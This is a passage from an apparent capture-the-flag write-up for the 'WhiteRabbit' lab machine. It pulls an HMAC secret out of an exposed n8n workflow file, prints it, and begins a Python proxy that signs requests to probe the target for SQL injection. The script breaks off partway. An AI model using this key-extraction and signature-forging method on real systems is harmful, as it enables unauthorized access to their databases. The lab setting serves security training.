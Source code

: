 ```
- **Conditional Logic**: Uses branching to handle different actions appropriately.

---

#### 🐞 **Debugging and Error Handling**

- Includes a temporary debug node labeled **"DEBUG: REMOVE SOON"** to assist with troubleshooting during development.

---

#### ✅ **Benefits and Conclusion**

- **Automates** the processing of phishing simulation data, reducing manual effort and error.
- Enables **real-time response and scoring**, improving training effectiveness.
- Enhances organizational **cybersecurity posture** by identifying high-risk users quickly.
- As phishing threats become more sophisticated, such integrations will be critical for proactive defense and user training at scale.

---

Let me know if you’d like this formatted as a slide deck, technical documentation, or need code samples for the signature verification step!
```

So we need to find the valid HMAC hash here
By search `hmac` from the example json file, we can find that
```
{
      "parameters": {
        "action": "hmac",
        "type": "SHA256",
        "value": "={{ JSON.stringify($json.body) }}",
        "dataPropertyName": "calculated_signature",
        "secret": "3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
      },
      "id": "e406828a-0d97-44b8-8798-6d066c4a4159",
      "name": "Calculate the signature",
      "type": "n8n-nodes-base.crypto",
      "typeVersion": 1,
      "position": [
        860,
        340
      ]
    },
```

Then we successfully get the `secret` here.
`3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS`

Let's make a script to help us to check the sql-injection here.
```
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import requests
import hmac
import hashlib
# Configuration
TARGET_HOST = "28efa8f7df.whiterabbit.htb"
TARGET_URL = f"http://{TARGET_HOST}"
HMAC_KEY = b"3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
class GoPhishProxy(BaseHTTPRequestHandler):
    def do_POST(self):
        # Read the request body
        content_len = int(self.headers.get('Content-Length', 0))
```